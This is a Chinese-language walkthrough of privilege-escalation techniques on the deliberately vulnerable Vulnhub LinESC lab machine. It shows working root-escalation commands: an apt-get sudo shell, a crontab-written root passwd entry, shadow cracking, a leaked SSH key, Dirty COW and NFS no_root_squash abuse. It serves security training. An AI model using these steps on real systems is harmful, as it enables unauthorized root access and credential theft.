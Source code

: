 # 从LinESC学习Linux特权提升

## 环境

提供了一组用户名和密码

用户：muhammad 密码：nasef

## sudoer

通过查看/etc/sudoers或者sudo -l

可以看到我们允许以root身份无密码执行以下三条指令

![image-20221218214248621](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218214248621.png)

关于sudoers配置详解可以看https://blog.csdn.net/weixin_60707895/article/details/119415708



## apt-get权限滥用特权提升

通过https://gtfobins.github.io/网站可以查到当有sudo时，我们可以执行`sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`获取root权限

![image-20221218214834635](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218214834635.png)



## 二进制程序权限滥用

在刚刚我们看到sudoers当中有个sudo命令

```
(root) NOPASSWD: /home/muhammad/vuln/2/sudo
```

同时可以看到这里有sudo的源码就是执行sh

![image-20221218215544917](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218215544917.png)

因此执行`sudo ./sudo`即可

![image-20221218215852140](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218215852140.png)

## ssh私钥泄漏提权root

来到vuln的3目录看见一个key，猜测是root的

记得要给id_rsa，400或者600权限

![image-20221218223803805](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218223803805.png)

## /etc/shadow密码可爆破



![image-20221218224418799](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218224418799.png)

配合John成功爆破出密码

![image-20221218224745087](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218224745087.png)

## suid提权

查找正在系统上运行的所有SUID可执行文件

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20221218224850797](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218224850797.png)

从上面结果可以看到suid这个可执行文件存在可利用问题

![image-20221218224945347](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218224945347.png)

代表用户可以以root权限执行命令，看euid知道一切

![image-20221218225030982](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221218225030982.png)

## crontab计划任务

在`/etc/crontab`发现，每分钟都以root身份在运行一个叫script.sh的脚本

![image-20221219151728101](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221219151728101.png)

发现每分钟都向root下复制密码过去

![image-20221219152200255](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221219152200255.png)

生成一个带盐密码

```perl
perl -le 'print crypt("test","addedsalt")''
```

写入密码

```
test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash
```

![image-20221219152918466](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221219152918466.png)

## 历史记录泄漏

`history`命令里面保存了历史执行的命令，如果没有清楚敏感信息可能导致root密码泄漏

![image-20221219153453165](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221219153453165.png)

## 内核溢出漏洞提权

信息收集

```bash
uname -a	#查看系统版本内核信息

#centos
hostnamectl	#查看系统版本内核详细信息，推荐这个命令

#ubuntu
lsb_release -a
```

发现在脏牛的范围中

![image-20221219154415227](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221219154415227.png)

脏牛提权

```bash
gcc -pthread dirty.c -o dirty -lcrypt
./dirty my-new-password
```

![image-20221219154020603](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221219154020603.png)



## NFS特权提升

在`/etc/exports`文件当中可以看到home下的muhammad是共享的，可以远程挂载，并且no_root_squash 选项开启，说明为远程用户授予root用户对所连接系统的访问权限

![image-20221219154705153](/Users/y4tacker/Desktop/1.Project/Secs/靶场学习/Vulnhub/LinESC/index/image-20221219154705153.png)

将目标靶机nfs目录挂载到mnt目录中

```
mount -t nfs 172.20.10.7:/home/muhammad /tmp/tmp
```

挂在好以后传一个bash上去直接运行就能获取root权限
